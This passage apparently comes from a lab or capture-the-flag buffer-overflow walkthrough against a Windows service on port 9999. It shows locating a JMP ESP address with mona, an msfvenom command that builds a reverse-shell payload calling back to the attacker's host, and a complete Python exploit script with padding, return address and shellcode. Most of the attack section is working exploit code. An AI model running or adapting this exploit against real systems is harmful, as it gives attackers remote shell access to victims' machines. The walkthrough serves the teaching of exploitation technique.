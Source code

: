 This script can loaded by placing it in Immunitiy debugger's `PyCommands` and can be loaded with `!mona`

<img src="https://i.imgur.com/dbIvIRd.png"/>

Running `!mona jmp -r esp`  we can identify the jmp instruction in the exe

<img src="https://i.imgur.com/GDvVUzr.png"/>

We get only one jmp instruction `0x311712f3`


## Getting a reverse shell

Now we need to just generate a windows 32 bit reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=2222 EXITFUNC=thread -f python -b "\x00" 
```

<img src="https://i.imgur.com/0VkOqSs.png"/>

```python
#!/usr/bin/python                                                                        
import socket                                                                                  
host = "192.168.0.139"
port = 9999

buf =  b""                                                              
buf += b"\xba\x97\x93\x0e\x39\xda\xc9\xd9\x74\x24\xf4\x5f\x29"
buf += b"\xc9\xb1\x52\x31\x57\x12\x83\xef\xfc\x03\xc0\x9d\xec"
buf += b"\xcc\x12\x49\x72\x2e\xea\x8a\x13\xa6\x0f\xbb\x13\xdc"
buf += b"\x44\xec\xa3\x96\x08\x01\x4f\xfa\xb8\x92\x3d\xd3\xcf"
buf += b"\x13\x8b\x05\xfe\xa4\xa0\x76\x61\x27\xbb\xaa\x41\x16"
buf += b"\x74\xbf\x80\x5f\x69\x32\xd0\x08\xe5\xe1\xc4\x3d\xb3"
buf += b"\x39\x6f\x0d\x55\x3a\x8c\xc6\x54\x6b\x03\x5c\x0f\xab"
buf += b"\xa2\xb1\x3b\xe2\xbc\xd6\x06\xbc\x37\x2c\xfc\x3f\x91"
buf += b"\x7c\xfd\xec\xdc\xb0\x0c\xec\x19\x76\xef\x9b\x53\x84"
buf += b"\x92\x9b\xa0\xf6\x48\x29\x32\x50\x1a\x89\x9e\x60\xcf"
buf += b"\x4c\x55\x6e\xa4\x1b\x31\x73\x3b\xcf\x4a\x8f\xb0\xee"
buf += b"\x9c\x19\x82\xd4\x38\x41\x50\x74\x19\x2f\x37\x89\x79"
buf += b"\x90\xe8\x2f\xf2\x3d\xfc\x5d\x59\x2a\x31\x6c\x61\xaa"
buf += b"\x5d\xe7\x12\x98\xc2\x53\xbc\x90\x8b\x7d\x3b\xd6\xa1"
buf += b"\x3a\xd3\x29\x4a\x3b\xfa\xed\x1e\x6b\x94\xc4\x1e\xe0"
buf += b"\x64\xe8\xca\xa7\x34\x46\xa5\x07\xe4\x26\x15\xe0\xee"
buf += b"\xa8\x4a\x10\x11\x63\xe3\xbb\xe8\xe4\xcc\x94\xf2\x77"
buf += b"\xa4\xe6\xf2\x7f\x9b\x6e\x14\x15\xf3\x26\x8f\x82\x6a"
buf += b"\x63\x5b\x32\x72\xb9\x26\x74\xf8\x4e\xd7\x3b\x09\x3a"
buf += b"\xcb\xac\xf9\x71\xb1\x7b\x05\xac\xdd\xe0\x94\x2b\x1d"
buf += b"\x6e\x85\xe3\x4a\x27\x7b\xfa\x1e\xd5\x22\x54\x3c\x24"
buf += b"\xb2\x9f\x84\xf3\x07\x21\x05\x71\x33\x05\x15\x4f\xbc"
buf += b"\x01\x41\x1f\xeb\xdf\x3f\xd9\x45\xae\xe9\xb3\x3a\x78"
buf += b"\x7d\x45\x71\xbb\xfb\x4a\x5c\x4d\xe3\xfb\x09\x08\x1c"
buf += b"\x33\xde\x9c\x65\x29\x7e\x62\xbc\xe9\x9e\x81\x14\x04"
buf += b"\x37\x1c\xfd\xa5\x5a\x9f\x28\xe9\x62\x1c\xd8\x92\x90"
buf += b"\x3c\xa9\x97\xdd\xfa\x42\xea\x4e\x6f\x64\x59\x6e\xba"

buffer = "A" * 524 + "\xf3\x12\x17\x31" + buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send(buffer)
s.recv(1024)

```